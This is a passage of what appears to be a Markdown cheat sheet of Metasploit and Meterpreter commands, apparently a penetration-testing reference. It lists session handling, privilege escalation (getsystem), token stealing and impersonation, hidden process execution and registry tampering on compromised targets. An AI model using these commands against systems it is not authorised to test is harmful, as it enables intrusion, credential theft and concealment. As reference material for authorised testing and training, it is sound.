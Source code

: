 | `exploit -z` | Do not interact with the session after successful exploitation. |
| `exploit -e <encoder>` | Specify the payload encoder to use (example: exploit –e shikata_ga_nai). |
| `exploit -h` | Display help for the exploit command. |
| `sessions -l` | List available sessions (used when handling multiple shells). |
| `sessions -l -v` | List all available sessions and show verbose fields, such as which vulnerability was used when exploiting the system. |
| `sessions -s <script>` | Run a specific Meterpreter script on all Meterpreter live sessions. |
| `sessions -K` | Kill all live sessions. |
| `sessions -c <cmd>` | Execute a command on all live Meterpreter sessions. |
| `sessions -u <sessionID>` | Upgrade a normal Win32 shell to a Meterpreter console. |
| `db_create <name>` | Create a database to use with database-driven attacks (example: db_create autopwn). |
| `db_connect <name>` | Create and connect to a database for driven attacks (example: db_connect autopwn). |
| `db_nmap` | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.) |
| `db_destroy` | Delete the current database. |
| `db_destroy  <user:password@host:port/database>` | Delete database using advanced options. |

### Meterpreter Commands 

| **Command**                                                     | **Description**                                                  |
| :---------------------------------------------------------- | :----------------------------------------------------------- |
| `help`                                                      | Open Meterpreter usage help.                                 |
| `run <scriptname>`                                        | Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory. |
| `sysinfo`                                                   | Show the system information on the compromised target.       |
| `ls`                                                        | List the files and folders on the target.                    |
| `use priv`                                                  | Load the privilege extension for extended Meterpreter libraries. |
| `ps`                                                        | Show all running processes and which accounts are associated with each process. |
| `migrate <proc. id>`                                      | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |
| `use incognito`                                             | Load incognito functions. (Used for token stealing and impersonation on a target machine.) |
| `list_tokens -u`                                            | List available tokens on the target by user.                 |
| `list_tokens -g`                                            | List available tokens on the target by group.                |
| `impersonate_token <DOMAIN_NAMEUSERNAME>`               | Impersonate a token available on the target.                 |
| `steal_token <proc. id>`                                  | Steal the tokens available for a given process and impersonate that token. |
| `drop_token`                                                | Stop impersonating the current token.                        |
| `getsystem`                                                 | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors. |
| `shell`                                                     | Drop into an interactive shell with all available tokens.    |
| `execute -f <cmd.exe> -i`                                 | Execute cmd.exe and interact with it.                        |
| `execute -f <cmd.exe> -i -t`                              | Execute cmd.exe with all available tokens.                   |
| `execute -f <cmd.exe> -i -H -t`                           | Execute cmd.exe with all available tokens and make it a hidden process. |
| `rev2self`                                                  | Revert back to the original user you used to compromise the target. |
| `reg <command>`                                           | Interact, create, delete, query, set, and much more in the target’s registry. |